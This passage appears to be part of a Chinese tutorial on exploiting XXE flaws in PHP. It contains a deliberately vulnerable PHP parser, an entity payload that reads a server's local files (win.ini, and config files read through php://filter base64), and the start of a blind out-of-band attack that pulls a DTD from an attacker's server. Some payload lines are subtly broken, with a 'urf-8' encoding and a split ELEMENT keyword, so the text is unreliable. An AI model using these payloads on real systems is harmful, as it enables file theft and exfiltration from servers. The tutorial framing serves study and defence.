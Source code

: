 

## 0x03 XML漏洞利用——有回显

在PHP中可以使用print_r()、echo输出想要输出的内容。
完整存在XXE漏洞代码如下：
```php
<?php
$xml = file_get_contents("php://input");
$data = simplexml_load_string($xml);
echo "<pre>";
print_r($data);    // 注释掉该语句即为无回显的情况
?>
```

以上代码需要POST请求，输入XML，这样就会被php://input接收到并被file_get_contents()函数转成字符串，然后由simplexml_load_string()函数转化成XML对象，print_r会输出对象全部信息，包括类信息。

POST请求数据部分修改XML内容如下：
```xml-dtd
<?xml version="1.0" encoding="urf-8"?>
<!DOCTYPE xxe [
<!EL    EMENT name ANY >
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<root>
<name>&xxe;</name>
</root>
```

利用file://协议获取服务器本地的文件，通过print_r()函数回显。

读取文件可以用：

- file:///path/to/file.txt
- http://url/file.txt
- php://filter/read=convert.base64-encode/resource=conf.php

base64编码读出来的文件内容需要解码，Kali终端输入以下命令可以base64解码：
```
echo "base字符串" | base64 -d
```



## 0x04 XXE漏洞利用——无回显

首先环境假设有客户端A(攻击者)、服务端B、攻击者搭建的服务端C、资源（可以是B的本地或内网）。

A向B发送POST请求，并提交XML内容
```xml
<?xml version="1.0"?>

<!DOCTYPE foo SYSTEM "http://C的ip地址/test.dtd">
<foo>&e1;</foo>
```
